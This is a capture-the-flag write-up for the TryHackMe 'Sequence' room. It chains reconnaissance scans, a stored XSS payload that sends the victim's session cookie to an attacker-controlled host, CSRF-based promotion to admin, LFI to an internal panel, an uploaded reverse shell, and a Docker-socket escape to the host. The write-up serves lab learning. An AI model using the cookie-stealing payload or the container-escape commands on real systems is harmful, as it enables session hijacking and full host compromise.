https://tryhackme.com/room/sequence
## description
Chain multiple vulnerabilities to take control of a system.
Robert made some last-minute updates to the `review.thm` website before heading off on vacation. He claims that the secret information of the financiers is fully protected. But are his defenses truly airtight? Your challenge is to exploit the vulnerabilities and gain complete control of the system.
## etc/hosts setup
I added review.thm to /etc/hosts 
## port scanning
```bash
nmap -A -p- -T5 -Pn review.thm  

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 af:22:49:d7:ab:6c:1f:46:df:5c:db:49:8c:55:b3:6d (RSA)
|   256 ad:ba:20:86:f8:f7:d0:bc:4f:ba:87:48:5a:0c:9a:50 (ECDSA)
|_  256 b2:7b:5b:11:8e:84:35:9a:f0:43:a8:a5:63:99:cc:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Review Shop
|_http-server-header: Apache/2.4.41 (Ubuntu)
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Linux 4.X|5.X|2.6.X (96%), Google Android 10.X|11.X|12.X (93%), Adtran embedded (92%)
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:google:android:10 cpe:/o:google:android:11 cpe:/o:google:android:12 cpe:/h:adtran:424rg cpe:/o:linux:linux_kernel:5.4 cpe:/o:linux:linux_kernel:2.6.32
Aggressive OS guesses: Linux 4.15 - 5.19 (96%), Linux 4.15 (96%), Linux 5.4 (96%), Android 10 - 12 (Linux 4.14 - 4.19) (93%), Adtran 424RG FTTH gateway (92%), Android 10 - 11 (Linux 4.14) (92%), Android 9 - 10 (Linux 4.9 - 4.14) (92%), Android 12 (Linux 5.4) (92%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 3 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
## subdomains enumeration
```bash
ffuf -w /media/sf_wordlists/SecLists-master/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.review.thm" -u http://review.thm -fs 1694
# no subdomains found
```
## main website
main website contains login and contact form links (login.php, contact.php)


## directories enumeration
```bash
feroxbuster -u 'http://review.thm' -w /media/sf_wordlists/SecLists-master/Discovery/Web-Content/big.txt
```

interesting findings:
```bash
http://review.thm/dashboard.php => login.php
http://review.thm/mail => http://review.thm/mail/
http://review.thm/mail/dump.txt
http://review.thm/phpmyadmin => http://review.thm/phpmyadmin/
http://review.thm/phpmyadmin/sql => http://review.thm/phpmyadmin/sql/
```

## dump.txt
http://review.thm/mail/dump.txt
contains some mail:
```
From: software@review.thm
To: product@review.thm
Subject: Update on Code and Feature Deployment

Hi Team,

I have successfully updated the code. The Lottery and Finance panels have also been created.

Both features have been placed in a controlled environment to prevent unauthorized access. The Finance panel (`/finance.php`) is hosted on the internal 192.x network, and the Lottery panel (`/lottery.php`) resides on the same segment.

For now, access is protected with a completed 8-character alphanumeric password **REDACTED** in order to restrict exposure and safeguard details regarding our potential investors.

I will be away on holiday but will be back soon.

Regards,  
Robert
```

## scanning website using whatweb
to know more about what review.thm is using:
```bash
whatweb -a 4 -v http://review.thm
Summary   : Apache[2.4.41], Bootstrap, Cookies[PHPSESSID], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)]
...
#nothing special found

whatweb -a 3 -v http://review.thm/phpmyadmin
#nothing special found
```

## trying bruteforce login website
I intercepted login request using burp and saved to login.req file.



```bash
ffuf -request login.req -request-proto http -w /usr/share/wordlists/rockyou.txt -fs 2002
```
unfortunately nothing possible to guess
## checking if login form vulnerable for sql injection
I will reuse login.req file
```
sqlmap -r login.req -p email,password --batch --level=5 --risk=3

```
no, it's not...
## maybe XSS
as there is information after clicking "send" that someone will review it shortly maybe we have some chance on XSS and cookie stealing?

First I will start http server on my side:
```bash
python3 -m http.server
```
I will try to send:
```javascript
<script>
fetch('http://YOUR_IP:8000/?c='+document.cookie)
</script>
```
looks like works! We have cookie



after changing **PHPSESSID** cookie value in browser -> storage -> cookies I have access to more functions of dashboard and first flag!


## functionalities after logging in as mod
we have list of users - we know that there is also some **admin** user



that's how request to promote to admin looks like as curl:
```bash
curl 'http://review.thm/promote_coadmin.php?username=mod&csrf_token_promote=ad148a3ca8bd0ef3b48c52454c493ec5' \ 
-H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0' \
-H 'Accept: */*' \ 
-H 'Accept-Language: en-US,en;q=0.5' \ 
-H 'Accept-Encoding: gzip, deflate' \ 
-H 'Referer: http://review.thm/settings.php' \ 
-H 'Connection: keep-alive' \ 
-H 'Cookie: PHPSESSID=lu51npfih8v1c3usj54g5ciriu' \ 
-H 'Priority: u=0' \ 
-H 'Pragma: no-cache' \ 
-H 'Cache-Control: no-cache'
```
this is form:

```html
<div class="mb-3"> 
<input type="text" class="form-control" name="username" placeholder="Enter username to promote" required="">
 <input type="hidden" name="csrf_token_promote" value="ad148a3ca8bd0ef3b48c52454c493ec5"> 
 </div> <button type="submit" class="btn btn-warning">Promote to Admin</button>

```
After many tries with DOM XSS and trying to bypass filtering I checked what is this csrf token...
....and it looks like it's just md5 of username...


so maybe we can hash with md5 "admin" and send this request...
I sent some link to admin and looks like he is clicking on links he is receiving:


I've sent him link making me admin, after he clicked:

now we have access to another panel:


during intercepting request (request when clicking on lottery feature) I noticed that it is sending request:


in email there was information about finance.php site, so we can modify request:
and bingo!


I logged in using password from email to finance.php panel:


now we have list of emails and it is possible to upload a file... maybe with reverse shell?
looks like there is no filtering:


as it is in internal network we need once again use LFI to run our uploaded reverse shell:

and we have reverse shell

we are root but in container...

in one writeup I read about some tool to docker enumeration
https://github.com/stealthcopter/deepce/tree/main
I downloaded deepce.sh using curl to target machine:
```bash
curl http://MY_IP:8000/linpeas.sh -o linpeas.sh
```
```
./deepce.sh
[+] Sock is writable ........ Yes

```

I mounted host to phpvulnerable:
```
docker images
REPOSITORY      TAG       IMAGE ID       CREATED         SIZE
phpvulnerable   latest    d0bf58293d3b   7 months ago    926MB
php             8.1-cli   0ead645a9bc2   10 months ago   527MB

## privilege escalation:
docker run -it -v /:/host/ phpvulnerable chroot /host/ bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash

```
